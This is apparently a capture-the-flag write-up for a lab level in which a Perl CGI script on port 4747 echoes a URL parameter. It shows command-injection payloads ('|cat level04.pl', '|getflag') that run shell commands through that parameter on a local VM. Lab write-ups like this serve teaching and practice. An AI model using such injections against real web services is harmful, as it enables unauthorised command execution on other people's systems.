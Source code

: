 # Write up

Here come a perl script `level04.pl`

The perl script listens to the port 4747 and displays the get(x) value
For exemple, with curl directly in the VM : `curl localhost:4747/level04.pl?x=test`
In a web navigator, implying that the VM contains a Host only adaptator : `http://192.168.56.101:4747/level04.pl?x=test`

(The following parts will be resolved on navigator)
We will try a Perl Command Injection here : `http://192.168.56.101:4747/level04.pl?x=|cat%20level04.pl`
Which will display the level04.pl source code on the screen, great.

Using this payload : `http://192.168.56.101:4747/level04.pl?x=|getflag`
We will be able to get the flag with the flag04 rights.


# Softs

- perl

# Sources

http://articles.mongueurs.net/magazines/linuxmag52.html
http://www.biogem.org/downloads/notes/Passing%20Parameters%20via%20CGI.pdf